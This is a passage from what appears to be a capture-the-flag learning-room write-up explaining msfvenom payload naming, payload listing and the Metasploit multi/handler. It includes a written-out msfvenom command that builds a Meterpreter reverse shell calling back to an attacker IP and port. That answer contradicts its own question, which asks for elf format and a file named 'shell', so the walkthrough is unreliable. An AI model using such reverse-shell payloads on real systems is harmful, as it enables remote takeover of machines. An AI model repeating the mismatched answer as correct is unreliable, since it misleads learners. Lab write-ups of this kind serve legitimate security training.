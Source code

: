 ```
```
shell/reverse_tcp
```
As staged payloads are denoted with another forward slash (```/```).

This rule also applies to Meterpreter payloads. 

A Windows 64bit ```staged Meterpreter payload``` would look like this:
```
windows/x64/meterpreter/reverse_tcp
```

A Linux 32bit ```stageless Meterpreter payload``` would look like this:
```
linux/x86/meterpreter_reverse_tcp
```

---

Aside from the ```msfconsole``` man page, the other important thing to note when working with msfvenom is:
```
msfvenom --list payloads
```
This can be used to list all available payloads, which can then be piped into ```grep``` to search for a specific set of payloads. For example:

![img](/assets/img/wts13.png)

This gives us a full set of Linux meterpreter payloads for 32bit targets.

1. Which symbol is used to show that a shell is stageless?
```
_
```


2. What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell


Answer : 

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.10.5 LPORT=443
```

---

Task 10  Metasploit multi/handler
---

```Multi/Handler``` is a superb tool for catching ```reverse shells```. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:

1. Open Metasploit with ```msfconsole```
2. Type use ```multi/handler```, and press ```enter```

We are now primed to start a multi/handler session. Let's take a look at the available options using the ```options``` command:

![img](/assets/img/wts14.png)

```
